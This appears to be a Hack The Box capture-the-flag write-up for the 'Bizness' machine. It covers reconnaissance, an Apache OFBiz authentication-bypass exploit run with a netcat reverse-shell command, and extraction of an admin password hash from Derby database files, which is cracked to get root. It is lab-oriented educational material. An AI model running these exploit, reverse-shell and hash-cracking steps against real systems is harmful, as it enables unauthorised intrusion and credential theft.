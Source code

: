 # Bizness | HTB
### Difficulty Level: Easy
------------------------------------------

add bizness.htb to your /etc/hosts file with:

```bash
echo '<machine-ip>    bizness.htb' >> /etc/hosts
```

Start with nmap scan to discover open ports and services:

```
└─# nmap -T4 10.10.11.252 -oN bizness.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 18:32 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

-T4 - Increases the scan's speed.

-oN - saves the output to a file.

There are 3 open ports:

22 - ssh

80 - http

443 - https


browse into the webpage:

![image](https://cdn-images-1.medium.com/max/1000/1*RDiEx9XtlQ-oLb4J91FiNw.png)


gobuster didn't work and I got errors, so I decide to use another tool, dirsearch.

```bash

dirsearch -u https://bizness.htb

Target: https://bizness.htb/

[18:42:05] Starting:                                                                                                          
[18:42:22] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd               
[18:42:24] 400 -  795B  - /a%5c.aspx                                        
[18:42:25] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[18:42:57] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[18:42:59] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[18:42:59] 404 -  762B  - /common/                                          
[18:42:59] 404 -  780B  - /common/config/api.ini                            
[18:42:59] 404 -  779B  - /common/config/db.ini                             
[18:43:03] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[18:43:03] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[18:43:03] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[18:43:04] 200 -   34KB - /control/                                         
[18:43:04] 200 -   34KB - /control
[18:43:04] 200 -   11KB - /control/login                                    
[18:43:09] 404 -  741B  - /default.jsp                                      
[18:43:09] 404 -  763B  - /default.html                                     
[18:43:14] 302 -    0B  - /error  ->  https://bizness.htb/error/            
[18:43:15] 404 -  761B  - /error/                                           
[18:43:15] 404 -  770B  - /error/error.log                                  
[18:43:15] 302 -    0B  - /example  ->  https://bizness.htb/example/        
[18:43:24] 302 -    0B  - /images  ->  https://bizness.htb/images/

```

There is an interesting path: /control/login 

 OFBiz Login page out there.

 ![image](https://cdn-images-1.medium.com/max/1000/1*Mz5kqCyzrCJEhqxO5UQuRQ.png)

 I tried to get in with default credentials but without any success.

So let's find an exploit for this service and the specified version. 


![image](https://cdn-images-1.medium.com/max/1000/1*C7BTmP6IdRsGEk40ZWtH-w.png)


After some searching in google I found an exploit:

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

So I used git clone to grab the repository.


```bash
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash <tun-0> 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

I run the exploit with a command to connect my machine with netcat.
then, create netcat listener to get the connection.

```bash
nc -lnvp 4444
```

and there is a shell.

```bash
└─# nc -lnvp 4444                          
listening on [any] 4444 ...
connect to [tun-0] from (UNKNOWN) [10.10.11.252] 38330
whoami
ofbiz
python3 -c 'import pty; pty.spawn("/bin/bash")'
ofbiz@bizness:/opt/ofbiz$
```

Grab user.txt flag.

```bash
ofbiz@bizness:~$ cat user.txt
cat user.txt
********************************
ofbiz@bizness:~$
```

##Privilege escalation##
-------------------------------------------

After long enumaration I found derby database:

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz$ ls
ls
dbex.lck  log                            seg0                tmp
db.lck    README_DO_NOT_TOUCH_FILES.txt  service.properties
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz$ cat README_DO_NOT_TOUCH_FILES.txt
<data/derby/ofbiz$ cat README_DO_NOT_TOUCH_FILES.txt

# *************************************************************************
# ***              DO NOT TOUCH FILES IN THIS DIRECTORY!                ***
# *** FILES IN THIS DIRECTORY AND SUBDIRECTORIES CONSTITUTE A DERBY     ***
# *** DATABASE, WHICH INCLUDES THE DATA (USER AND SYSTEM) AND THE       ***
# *** FILES NECESSARY FOR DATABASE RECOVERY.                            ***
# *** EDITING, ADDING, OR DELETING ANY OF THESE FILES MAY CAUSE DATA    ***
# *** CORRUPTION AND LEAVE THE DATABASE IN A NON-RECOVERABLE STATE.     ***
# *************************************************************************
```

moving into seg0 there are tones of .dat files, strings all the files and try to get passwords from it with:

```bash
<a/derby/ofbiz/seg0$ strings *.dat | grep "Password"    
                        <td align='left'><span>Password: </span></td>
                  <div><a href="<@ofbizUrl>/forgotpasswd</@ofbizUrl>">Forgot Password?</a></div>
        <Password>${password}</Password>
!Change Password Template Location
!Forget Password Template Location
Retrieve Password
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
Password
```

There is hash:

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

"SHA" indicates the hash algorithm used, which is SHA-1.
"d" denotes that it's a password hash generated with the crypt function.
"uP0_QaVBpDWFeo8-dRzDqRwXQ2I" is the actual hash value.

There are some hash sha1 cracker of ofbiz's hashes:

https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker.git

clone the repository and use cracker.

```bash
└─# python3 cracker.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist /usr/share/wordlists/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
```

There is a password for root. su root and grab root.txt flag.

```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ su
su
Password: monkeybizness

root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# whoami
whoami
root
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cat /root/root.txt
cat /root/root.txt
********************************
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# 
```

AND THIS IS THE END!

***Written by Alon Presman, Penetration Tester and Ethical Hacker.***






























 











